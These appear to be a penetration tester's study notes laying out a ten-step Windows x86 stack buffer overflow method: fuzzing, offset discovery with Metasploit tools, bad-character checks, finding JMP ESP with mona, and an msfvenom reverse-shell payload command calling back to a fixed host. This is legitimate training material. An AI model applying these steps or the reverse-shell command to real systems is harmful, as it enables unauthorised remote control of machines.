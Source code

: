 Step 1: Fuzz the program

Probably using a python script. Fuzz the input to see what size buffer overflow you need to pass in order to crash the program. 

Step 2: Find the offset

Use pattern_create 

/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <length of buffer>

Pass the output to the program

Take the value in the EIP and use it with pattern_offset.rb

/usr/share/metasploit-framework/tools/exploit./pattern_offset.rb -l <length of buffer> -q <EIP value> 

Step 3: Confirm you can control the buffer

Use the offset value to confirm you can control the buffer

Send "A" * <offset> + "B" * 4 + "C" * <length of buffer - 4 - offset> to the program 

Make sure that BBBB (42424242) is written to the EIP


Step 4: Check for Bad characters

badchars = ( "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10" "\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20" "\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30" "\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40" "\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50" "\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60" "\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70" "\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80" "\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90" "\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0" "\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0" "\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0" "\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0" "\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0" "\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0" "\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" )


Look at the buffer and see if there are any characters that cause the buffer to be truncated or are skipped over. (we can also assume that \x00 is a bad character always) 

Step 5: Find space for your shellcode:

We assume the general size for a payload is about 351 bytes. 

So we need to see where we can put this. To do this, we can try to just increase the amount of "C"'s that we are passing to the program. 


Step 5b:

If we do not have this option, another thing we could do was look to see if a register is pointing to another point in the code we passed it. 

For example, the crossfire buffer overflow had the EAX pointing to the beginning of the string we passed it. It was "setup sound:AAAAAA.." But we had some space after the EIP to play with. There were 5 bytes of "C" in the stack that the ESP was pointing to. 

So, we needed to use 

/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb 

to do: 

Add eax, 12 (this is to bypass the setup sound string at the beginning of the EAX space)

\x83\xc0\x0c

Jmp eax (to jump to where the eax is) 

\xff\xe0



Step 6: Redirect execution flow

Need to find a JMP ESP command in a module that is: 

	1. No memory protections such as DEP and ASLR
	2. Has a memory range that does not contain bad characters

We can find this by using the mona.py script in immunity debugger. 

Do this by typing in the command: 

!mona modules

Look for a module with: 
	1. Rebase = False
	2. SafeSEH = False
	3. ASLR = False
	4. NXCompat = False

Once this is identified, we need to find a JMP ESP command in this module

To do this, we use the mona.py script again: 

!mona find -s "\xff\xe4" -m <modules> (slmfc.dll for example) 

Pick a pointer without any bad characters. 

Step 7: Control the EIP

Put the JMP ESP command where the B's were. 

Remember, since windows x86 architecture stores things in little endian. So we have to put the address in backwards. 

For example, 0x5f4a358f would be written as this in the script:

"\x8f\x35\x4a\x5f"

##Step 8: Generate payload

Using msfvenom we need to generate a reverse shell that avoids bad chars


msfvenom -p windows/shell_reverse_tcp  EXITFUNC=thread -f python LHOST=10.11.0.41 LPORT=443 -e x86/shikata_ga_nai -b "\x00\x0a\x0d"


##Step 9: Add shellcode to exploit

Important thing here is that we need a NOP sled before the exploit. 

We do this by adding "\x90" * 8 before the shellcode. 

So it would be: "A" * offset  + "JMP ESP to point to" + "/x90" * 8 + shellcode

Step 10: Execute and get shell

Simple as 123
